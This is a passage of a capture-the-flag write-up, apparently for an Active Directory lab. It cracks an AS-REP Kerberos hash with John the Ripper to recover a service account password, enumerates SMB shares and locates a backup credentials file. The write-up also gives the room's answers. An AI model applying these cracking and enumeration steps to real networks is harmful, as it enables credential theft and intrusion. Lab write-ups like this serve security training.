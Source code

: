 1. Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)<br>
    Search the string of the format in [](https://hashcat.net/wiki/doku.php?id=example_hashes)
    ```
    18200	Kerberos 5, etype 23, AS-REP	$krb5asrep$
    ```
    **Answer:** Kerberos 5, etype 23, AS-REP

1. What mode is the hash?<br>
    **Answer:** 18200

1. Now crack the hash with the modified password list provided, what is the user accounts password?<br>
    Use `john the ripper` and the given password list to crack this password.<br>
    ```
    $ john svc-admin --wordlist=passwordlist.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    management2005   ($krb5asrep$23$svc-admin@10.10.133.221@SPOOKYSEC.LOCAL)     
    1g 0:00:00:00 DONE (2023-07-15 05:58) 25.00g/s 162000p/s 162000c/s 162000C/s brendita..march10
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    **Answer:** management2005

## Task 6 - Enumeration Back to the Basics
1. What utility can we use to map remote SMB shares?<br>
    Use `impacket-smbclient`.<br>
    **Answer:** smbclient

1. Which option will list shares?<br>
    View in help page of `smbclient`.<br>
    **Answer:** -L

1. How many remote shares is the server listing?<br>
    Connect to SMB share with `smbclient`, then use `shares` to list all share folder on the server.<br>
    ```
    # shares
    ADMIN$
    backup
    C$
    IPC$
    NETLOGON
    SYSVOL
    ```
    **Answer:** 6

1. There is one particular share that we have access to that contains a text file. Which share is it?<br>
    In `backup` share, we found a .txt file in it.<br>
    ```
    # use backup
    # ls
    drw-rw-rw-          0  Sat Apr  4 15:08:39 2020 .
    drw-rw-rw-          0  Sat Apr  4 15:08:39 2020 ..
    -rw-rw-rw-         48  Sat Apr  4 15:08:53 2020 backup_credentials.txt
    ```